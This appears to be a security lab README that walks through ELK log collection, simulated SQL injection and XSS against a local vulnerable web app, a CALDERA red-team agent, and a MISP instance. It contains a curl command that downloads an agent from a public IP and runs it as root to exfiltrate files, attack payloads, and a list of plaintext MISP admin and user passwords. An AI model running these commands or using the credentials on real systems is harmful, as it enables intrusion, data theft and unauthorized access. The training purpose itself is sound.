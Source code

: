 

After Installing ELK & fluentd
  We should generate some log in the following files : <br>
     - /var/log/httpd/access_log<br>
	   - /var/log/httpd/error_log<br>
	   - /var/log/httpd/modsec_audit.log

By Testing web application attack using the following link:<br>
#### Begin attack Simulation
SQL injection<br>
http://127.0.0.1/Vulnerable-Web-Application-master/SQL/sql1.php?category=Gifts%27+OR+1=1--

XSS<br>
http://127.0.0.1/Vulnerable-Web-Application-master/XSS/XSS_level1.php
<script>alert(123)</script>

* Let move to elacticSearch 
  #### go to  Stack Management > Index Management 
   
   you should fine the following Index
   <img src="images/elk_index.JPG">
   
   #### Creat Index pattern  Stack Management > Index patterns
   <img src="images/create_index1.JPG">
   
   Name : apache_error_log_result*
   Timestamp field : @timestamp
    <img src="images/create_index2.JPG">
    
  * Now go to Discover, you should have date visualisation like this
  <img src="images/elk_data.JPG">


[6c1d8c4afbc7f85f05fb2e4d17e5553255b0195a0b56ba5309e362e2156debfc]



  
## CALDERA
http://66.117.8.162:8888/<br>


  ```sh
server="http://66.117.8.162:8888";<br>
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd1;<br>
chmod +x splunkd1;<br>
./splunkd1 -server $server -group red1 -v<br>
  ```

As root user<br>

Change N by your Id on "splunkdN"<br>
Change N by your Id on "redN"<br>
run the following command : <br>

  ```sh
server="http://66.117.8.162:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkdN;<br>
chmod +x splunkdN;<br>
./splunkdN -server $server -group redN -v<br>
  ```
  
Verified agent status<br>
Define Adversaries profile : Thief<br>
Expand operation<br>

Go to Exfilled Files, and download your exfiltered data<br>



## MISP
http://66.117.8.162:8080/users/admin_index<br>
admin				kVYoghBmxQOH4o4HnQmcsBZiA<br>
admin@admin.test		6_EusicnWdL3zHvl0Qm5IhRjS<br>
user1@testmips.com		Mssjo20s@sjs+qs51<br>
user2@testmips.com		Mssjo20s@sjs+qs521<br>
user3@testmips.com		Mssjo20s@sjs+qs53<br>
user4@testmips.com		Mssjo20s@sjs+qs54<br>
user5@testmips.com		Mssjo20s@sjs+qs55<br>
user6@testmips.com		Mssjo20s@sjs+qs56<br>
user7@testmips.com		Mssjo20s@sjs+qs57<br>
user8@testmips.com		Mssjo20s@sjs+qs58<br>
user9@testmips.com		Mssjo20s@sjs+qs59<br>
user10@testmips.com		Mssjo20s@sjs+qs10<br>
